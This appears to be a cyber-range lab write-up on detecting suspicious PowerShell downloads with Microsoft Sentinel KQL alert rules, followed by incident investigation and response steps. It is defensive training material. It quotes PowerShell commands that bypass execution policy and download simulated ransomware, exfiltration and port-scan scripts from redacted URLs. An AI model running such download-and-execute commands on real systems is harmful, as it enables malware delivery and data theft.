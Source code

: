 # ⚠️ Incident Response Lab: PowerShell Suspicious Web Request

**Author**: Jason Nguyen  
**Date**: June 2025  
**Scenario**: Post-exploitation detection using PowerShell logging and scheduled alerts in Microsoft Sentinel  
**Based on**: [Josh Madakor’s Cyber Range](https://github.com/joshmadakor1/lognpacific-public)

---

## 🧰 Tools and Technologies

* **Microsoft Sentinel** (SIEM)
* **Microsoft Defender for Endpoint** (EDR)
* **Log Analytics Workspace** (LAW)
* **KQL (Kusto Query Language)**
* **PowerShell**

---

## 🧠 Scenario Overview

In real-world attacks, adversaries often use built-in tools like PowerShell to download payloads from external sources—blending malicious activity with legitimate system processes. This lab explores how to detect such behavior by creating KQL-based scheduled alerts in Microsoft Sentinel to identify suspicious use of `Invoke-WebRequest`.

---

## 🔍 Part 1: Create a Scheduled Alert Rule

### 📌 Goal
Detect when PowerShell executes `Invoke-WebRequest` on a specific endpoint (`windows-target-1`), potentially indicating malicious behavior.

### 🧪 Attempted KQL (Initial Query)
```kql
DeviceProcessEvents
| where DeviceName == "windows-target-1"
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated desc
````

✅ This returned **no results in the last 7 days**.

### ✅ Working Query (Adjusted Time Range)

```kql
let TargetHostname = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| where TimeGenerated > ago(30d)
| order by TimeGenerated
```

This query detected the download of 4 scripts previously used in earlier labs: `pwncrypt.ps1`, `eicar.ps1`, `portscan.ps1`, and `exfiltratedata.ps1`.

### 📌 Key Terminology

* `InitiatingProcessCommandLine`: Refers to the **parent process** that launched PowerShell.
* `ProcessCommandLine`: Refers to the **child process** (i.e., the PowerShell script or command being run).

---

### ⚙️ Alert Rule Configuration

| Setting                | Value                                                                        |
| ---------------------- | ---------------------------------------------------------------------------- |
| **Rule Name**          | PowerShell Suspicious Web Request                                            |
| **Rule Type**          | Scheduled Query Rule                                                         |
| **Query**              | See below                                                                    |
| **Frequency**          | Every 4 hours                                                                |
| **Lookup Period**      | Last 14 days                                                                 |
| **Entity Mapping**     | Account → Account Name<br>Host → Device Name<br>Process → ProcessCommandLine |
| **Threshold**          | Alert if count > 0                                                           |
| **Suppression**        | Stop alerting for 24 hours after hit                                         |
| **Incident Creation**  | Enabled                                                                      |
| **MITRE ATT\&CK Tags** | T1059.001, T1203, T1071.001, T1105, T1041                                    |

### 🔎 Final Rule Query

```kql
DeviceProcessEvents
| where DeviceName == "windows-target-1"
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated desc
```

---

## 🚨 Part 2: Trigger Alert to Create Incident

No custom VM used. I leveraged the logs from `windows-target-1`, which had existing activity from automated attacks.

---

## 🛠️ Part 3: Incident Investigation and Response

### 🧾 Incident Summary

**Incident Name**: `J - PowerShell Suspicious Web Request`
**Device**: `windows-target-1`
**Triggered by**: A single user executing 4 PowerShell download commands.

### 🔗 Malicious Commands Detected:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../pwncrypt.ps1 -OutFile C:\ProgramData\pwncrypt.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../exfiltratedata.ps1 -OutFile C:\ProgramData\exfiltratedata.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../portscan.ps1 -OutFile C:\ProgramData\portscan.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../eicar.ps1 -OutFile C:\ProgramData\eicar.ps1
```

👤 **User Interview Summary**:
User claimed to be installing free software but saw only a black screen. No GUI feedback. Suspicious behavior noted.

### 🧪 KQL Script Execution Validation

```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

✅ Confirmed that each script was executed post-download.

### 📄 Script Behavior Summaries (Generated via AI):

| Script               | Description                                                                |
| -------------------- | -------------------------------------------------------------------------- |
| `pwncrypt.ps1`       | Simulates ransomware by encrypting fake files and placing ransom notes.    |
| `exfiltratedata.ps1` | Generates and uploads mock sensitive data to cloud storage (simulated C2). |
| `portscan.ps1`       | Performs local subnet scans for open ports and active hosts.               |
| `eicar.ps1`          | Creates EICAR antivirus test file to trigger malware alerts.               |

---

## 🧯 Containment, Eradication, Recovery

* ✅ **Isolated** the affected VM from the network.
* ✅ **Ran** full antivirus scan using Microsoft Defender for Endpoint.
* ✅ **Restored** system after scan returned clean.

---

## 📚 Post-Incident Actions

* 🧑‍🏫 User completed cybersecurity awareness retraining.
* 🛡️ Upgraded awareness program with KnowBe4.
* 🔒 Initiated policy restricting PowerShell to admin users only.
* 🗓️ Increased training frequency for all employees.

---

## ✅ Closure

* Incident marked as **True Positive**
* Activity log updated in Microsoft Sentinel
* Alert rule deleted after analysis
* Lessons learned documented

---

## 📌 MITRE ATT&CK Mapping

| Tactic            | Technique ID | Technique Name                    |
| ----------------- | ------------ | --------------------------------- |
| Execution         | T1059.001    | PowerShell                        |
| Initial Access    | T1203        | Exploitation for Client Execution |
| Command & Control | T1071.001    | Web Protocols                     |
| Command & Control | T1105        | Ingress Tool Transfer             |
| Exfiltration      | T1041        | Exfiltration Over C2 Channel      |

---

> 🧪 *This lab reinforced detection techniques for abuse of legitimate tools like PowerShell in post-exploitation phases. It also emphasized the need for baseline behavior monitoring, entity mapping, and structured incident response in Sentinel.*


